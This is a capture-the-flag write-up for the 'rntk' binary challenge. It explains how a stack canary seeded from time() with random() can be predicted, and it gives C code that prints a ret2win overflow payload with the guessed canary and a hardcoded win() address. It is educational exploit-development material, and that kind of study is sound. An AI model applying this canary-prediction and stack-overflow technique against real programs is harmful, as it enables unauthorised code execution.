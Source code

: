 # rntk
In this challenge we are provided with binary `chal` which is random number generator. After decompiling we can see that it has canary stack protector generated with glibc `random()` function which is seeded with `time`. As `random()` generates [pseduo random](https://www.mathstat.dal.ca/~selinger/random/) numbers, we can very easily generate same number by just seeding `srand()` in other program in the same second. <br>

![preview](images/1.png)

We can see that this challenge is classical ret2win and we just have to overflow the stack and overwrite an address of returnee with address of `win()` function.<br>

![preview](images/2.png)<br>
`main()`:<br>
![preview](images/6.png)<br>
`random_guess()`:<br>
![preview](images/7.png)
## Solution
After quick investigation in gdb I could tell that cannary value is at 44-48 bytes (red) of our input and that 56-60 (purple) bytes overwrite address of the returnee.
![preview](images/3.png)
![preveiw](images/4.png)
So I wrote following code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

int main()
{
    unsigned int n;
    srand(time(0));
    n = rand();
    unsigned char bytes[4];

    bytes[0] = (n >> 24) & 0xFF;
    bytes[1] = (n >> 16) & 0xFF;
    bytes[2] = (n >> 8) & 0xFF;
    bytes[3] = n & 0xFF;
    printf("2\n"); 
    printf("AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKK%c%c%c%cMMMMNNNN\xb6\x12\x40\x00", bytes[3],bytes[2],bytes[1],bytes[0]);
    return 0;
}
```
passed it as input to `chal`
## And it works!
![preview](images/5.png)
